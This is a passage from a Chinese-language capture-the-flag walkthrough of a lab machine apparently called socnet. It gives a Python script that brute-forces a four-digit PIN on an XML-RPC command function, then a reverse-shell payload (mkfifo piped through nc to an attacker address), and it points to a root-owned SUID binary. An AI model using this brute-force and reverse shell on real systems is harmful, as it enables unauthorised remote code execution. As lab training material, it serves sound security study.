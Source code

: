 这是一个python脚本,其中使用了SimpleXMLRPCServer库

这是什么东西?怎么好像没见过?

我们百度一下看看~

https://docs.python.org/3.6/library/xmlrpc.server.html

分析一下代码,有四个基本的函数用来获取基本信息.

服务开放在8000端口,怪不得之前测试了这么多方式都不行...

其中有一个secure_cmd函数用来执行任意代码,但是需要四位的随机密码~

既然这样,我们就用python编写一个xmlrpc客户端脚本爆破一下密码吧~

```python
#brute-pass.py
import xmlrpc.client
s = xmlrpc.client.ServerProxy('http://192.168.1.10:8000')
for x in range(1000,10000):
    res = s.secure_cmd('id',x)
    if not "Wrong" in res:
        print("Pass:"+str(x))
        break
```

注:密码是每次启动随机生成的,所以各位可千万不要拿着我爆破出来的密码去使用哦,哈哈~

`Pass:6935`

这下我们就获得了密码,可以远程执行指令啦~

我们把指令换成反弹shell~

```python
#get-shell.py
import xmlrpc.client
s = xmlrpc.client.ServerProxy('http://192.168.1.10:8000')
s.secure_cmd('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.1.5 5555 > /tmp/f',6935)
```

我们成功获得socnet普通用户权限~

#### 动态分析&逆向

我们之前还注意到有另外两个文件

![截屏2021-09-12 下午1.14.08](https://tva1.sinaimg.cn/large/008i3skNly1gudrq3slo6j60pg05cjsi02.jpg)

add_record,一个可执行文件,其中有suid修饰符,而且所属用户还是root!

我想这已经很明显了~

peda文件夹?我们百度一下

https://blog.csdn.net/SmalOSnail/article/details/53149426?locationNum=1&fps=1

这是一个的、gdb的辅助插件,用于逆向分析
